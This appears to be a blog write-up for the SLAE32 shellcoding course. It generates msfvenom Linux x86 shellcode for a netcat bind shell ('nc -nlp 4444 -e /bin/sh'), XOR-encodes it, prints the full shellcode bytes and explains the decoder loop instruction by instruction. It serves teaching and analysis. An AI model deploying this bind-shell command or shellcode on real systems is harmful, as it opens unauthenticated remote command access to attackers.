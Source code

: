 ```yaml
---
title: SLAE32 Assignment 5 -- Analyzing MSF-Venom Dynamic XOR Encoded Exec Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - Reverse
  - Netcat
  - metasploit
  - msfvenom
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)
![](/pics/msfLogo.png)
## Overview
For the 5th assignment of the SLAE Exam, I will be analyzing 3 different linux x86 shellcodes created with MSF Venom.  
The first will be the payload `/linux/x86/exec`.   
+ The command being executed will be `nc -nlp 4444 -e "/bin/sh" &`  
+ This will create a bind shell, on TCP port 4444, on all network interfaces, and then background the process.  

## Testing the Command
```console
root# nc -nlp 4444 -e "/bin/sh" &
[1] 9119
root# netstat -tnalp | grep nc
tcp   0.0.0.0:4444    0.0.0.0:*  LISTEN  9119/nc
```
+ The command successfully ran and was given the process ID 9119 and the job ID of 1.  
+ The process `nc` is successfully listening on all interfaces `0.0.0.0`, on TCP port `4444`.  

Since the job is running in the background, we can use the same terminal window to access our /bin/sh listening on all interfaces, by using netcat to connect to the localhost interface (127.0.0.1) on TCP port 4444.  

### Connecting to Netcat Shell
```console
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```
+ We successfully are able to run commands with our netcat, bind shell.  

## Creating the Shellcode with msfvenom
Now we will use msfvenom to create a shellcode to execute our netcat, bind shell command. The output will be in C so we can easily add it to our shellcode.c program.  

```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c
Payload size: 63 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x1c\x00\x00\x00\x6e"
"\x63\x20\x2d\x6e\x6c\x70\x20\x34\x34\x34\x34\x20\x2d\x65\x20"
"\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x20\x26\x00\x57\x53\x89"
"\xe1\xcd\x80";
```
+ This payload contains NULL bytes, rendering it useless for shellcode. We will use the builtin XOR encoder to encode our payload before we analyze it.  

### Encoding the Payload
```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &'\
 --format c --encoder x86/xor_dynamic
x86/xor_dynamic chosen with final size 109
Payload size: 109 bytes
unsigned char buf[] =
"\xeb\x23\x5b\x89\xdf\xb0\x1a\xfc\xae\x75\xfd\x89\xf9\x89\xde"
"\x8a\x06\x30\x07\x47\x66\x81\x3f\x88\x02\x74\x08\x46\x80\x3e"
"\x1a\x75\xee\xeb\xea\xff\xe1\xe8\xd8\xff\xff\xff\x02\x1a\x68"
"\x09\x5a\x9b\x50\x64\x6a\x2f\x61\x8b\xe5\x6a\x2d\x71\x6a\x02"
"\x6a\x2d\x60\x6b\x6c\x8b\xe1\x50\xea\x1e\x02\x02\x02\x6c\x61"
"\x22\x2f\x6c\x6e\x72\x22\x36\x36\x36\x36\x22\x2f\x67\x22\x20"
"\x2d\x60\x6b\x6c\x2d\x71\x6a\x20\x22\x24\x02\x55\x51\x8b\xe3"
"\xcf\x82\x88\x02";
```

Perfect, now our shellcode is NULL free. Next we will use sctest from libemu to analyze the shellcode.

### Installing LibEmu  
I used my  64-bit Kali machine to create the 32-bit MSF Venom shellcode, and to analyze it with libemu. Unfortunately I could not find a trust-worthy download from the internet. Fortunately libemu is included in the kali repo.
```console
root# apt search libemu
libemu2/kali-rolling,now 0.2.0+git20120122-1.2+b1 amd64 [installed,automatic]
  x86 shellcode detection and emulation
```

### LibEmu Shellcode Analyzation
Now that we have libemu, we will pipe our payload from msfvenom into sctest. Using sctest from libemu, we will create a visual map of how the shellcode is being executed.  

```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' \
--encoder x86/xor_dynamic | sctest -Ss 10000 -vvv -G execNC.dot
# Convert from dot to png
root# dot -Tpng execNC.dot -o execNC.png
# open png picture with eog
eog execNC.png
```

![](/pics/execNC.png)

## Breaking Down the Flow Chart
At first this may look a little over-whelming, but once we start breaking it down, we will see it is not that bad.  

In the top most block, we can see that the shellcode is using the _Jump-Call-Pop_ technique.  

The first instruction `jmp 0x25`, jumps our Instruction Pointer `EIP` forward 25 bytes. 
+ This is a short jump. 
  - Short jumps use offsets instead of a hard-coded address. 
  - This allows the shellcode to work in the programs it is injected into.

The next instruction `call 0xffffffdd`, is a call instruction. 
+ This is similar to a jump instruction. 
  - Although before jumping, the instruction after the call instruction is pushed onto the stack. 
+ This allows the program to return to where it was, once it is done execution where it was called to. 
+ In our situation, the next instruction is actually the memory location to our string. 
  - Our string is our entire, XOR'd shellcode payload. 

The 3rd instruction `pop ebx`, _pop's_ the pointer to our payload off into the `EBX` Register.   

Once in the EBX Register, it is duplicated to the EDI Register using the instruction `mov, edi,ebx`.  

We can see that the loop, outlined using the blue arrow, is a XOR decoder loop.  
+ The decoder decodes our shellcode byte by byte using the instruction `xor [edi], al`.   

After the byte is decoded, the EDI Register is moved forward one byte using the instruction `inc edi`.   

The instruction `cmp word [edi],0x971b` compares 2 bytes (a word) starting at the memory location of EDI, with the value 0x971b.   
+ If the compare instruction returns that the 2 words match, then the result will return a 0.  
+ The `cmp` instruction subtracts the two values and sets the Zero Flag if Zero.  

The instruction `jz 0xa` will jump `EIP` forward 10 bytes, if the last instruction returned zero.   
+ This insturction is "Jump if Zero", also know as "Jump if Equal".   

If we do the math we can see that that would change our location from 0x00417019, to 0x00417023 (indicated by the black arrow).   
Remember that this is in Hex not in Decimal, do not be decieved thinking it is only moving forward four.   
```
Decimal Incrementing:  0  > 1  > 2  > 3  > 4  > 5  > 6  > 7  > 8  > 9  > 10
Hex Incrementing:      19 > 1a > 1b > 1c > 1d > 1e > 1f > 20 > 21 > 22 > 23
```
